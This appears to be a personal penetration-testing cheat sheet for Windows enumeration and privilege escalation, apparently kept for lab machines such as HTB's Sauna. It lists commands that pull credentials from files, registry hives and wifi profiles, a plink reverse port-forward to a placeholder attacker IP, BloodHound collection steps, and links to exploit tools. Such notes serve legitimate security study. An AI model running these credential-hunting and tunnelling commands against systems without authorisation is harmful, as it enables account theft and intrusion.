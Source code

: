 # Windows Survey and Privilege Escalation (work in progress)

Windows commands, instrumentation, and powershell cmdlets for enumeration

wmic = Windows Managmenet Instrumentatiom Commandline
*Get* commmands are powershell cmdlets

#### System Information:
```
systeminfo
ver 
hostname

# only OS information 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

# verbose hotfix (patch) info 
wmic qfe
wmic qfe get Caption,Description,HotFixID,InstalledOn

# disk drives
wmic logicaldisk get caption,description,providername 
```
<br/>

#### Enviornment variables:
```
set

# powershell
Get-ChildItem Env: | ft Key,Value
```

View the current user's information:
```
# username
whoami
echo %username%
$env:UserName

# user details
whoami /priv
whoami /all
net user <USERNAME>

# detailed account information and group memberships:
net user <USERNAME> 
```

Enumerate users and groups: 
```
# who else is logged in 
qwinsta

# local users
net user
net user <USERNAME>
Get-LocalUser

# domain users 
net user /domain 
net user <USERNAME> /domain

#search through user directories
tree /f /a C:\Users\<USERNAME>
Get-ChildItem C:\Users\<USERNAME> -Force

# local groups 
net localgroup
Get-LocalGroups

# users in the group
net localgroup <GROUP>
Get-LocalGroupMember <GROUP>

# domain groups 
net groups
net groups /domain

page 627
```
Networking:
```
ipconfig
ipconfig /all
route print
arp -a
type C:\windows\system32\drivers\etc\networks

# display active TCP/UDP connections:
netstat -ano

# connections with executeanle 
netstat -bano
```


Firewall Status:
```

# windows defender
sc query windefend

# firewall
netsh firewall show state
netsh firewall  show config
```


Password hunting:
```
# current directory
findstr /si password *.txt *.ini *.config *.xml

# look through payloadallthethings


# wifi passwords
netsh wlan show profile
netsh wlan show profile <SSID> key=clear | findstr "Key Content"
```


Registry:

```
# windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

Search the HIVES:
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


Running proceeses:
```
wmic process list brief
sc queryex type= service 
sc queryex type= service  | finstr "SERVICE NAME"
```

Set up port forwarding for services only available on the local machine:
```
# Port forward using plink
plink.exe -l <ATTACKER_USERNAME> -pw <ATTACKER_PASSOWRD> -R <ATTACKER_PORT>:127.0.0.1:<VICTIM_PORT> <ATTACKER_IP>

#The attacker port should provide access to the service from the attacker port on the attacker machine
```

<br /> 

Scripts: 
* winPEAS.bat
* windows-exploit-suggester.py
* WinEnum.ps1

Tools

## Bloodhound
```
#install
sudo apt install bloodhound 

#start bloodhound
bloodhound

#start neo4
neo4j console

#run sharphound on the target windows machine
./Sharphound.exe

#copy the zip file to your attacking machine, drag and drop into neo4j
```
Reference Sauna HTB machine


### Automated Enumeration Tools
- [winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- Windows Priv Esc Checklist: https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
- Sherlock: https://github.com/rasta-mouse/Sherlock
- Watson: https://github.com/rasta-mouse/Watson
- PowerUp: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- JAWS: https://github.com/411Hall/JAWS
- Windows Exploit Suggester: https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- Metasploit Local Exploit Suggester: https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
```
msf > run post/multi/recon/local_exploit_suggester
```
- Seatbelt: https://github.com/GhostPack/Seatbelt
- SharpUp: https://github.com/GhostPack/SharpUp


### Techniques 

UAC Bypass - https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/
Juicy Potato 
* must tell which CLSID to run or let it choose for you which may work 
** well known list for each OS - https://github.com/ohpe/juicy-potato/tree/master/CLSID

icacls - what files do we have read/write/execute abilites?


### Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits

### Referenced Checklists
1. https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
2. Udemy Windows Privilege Escalation for Beginners Course


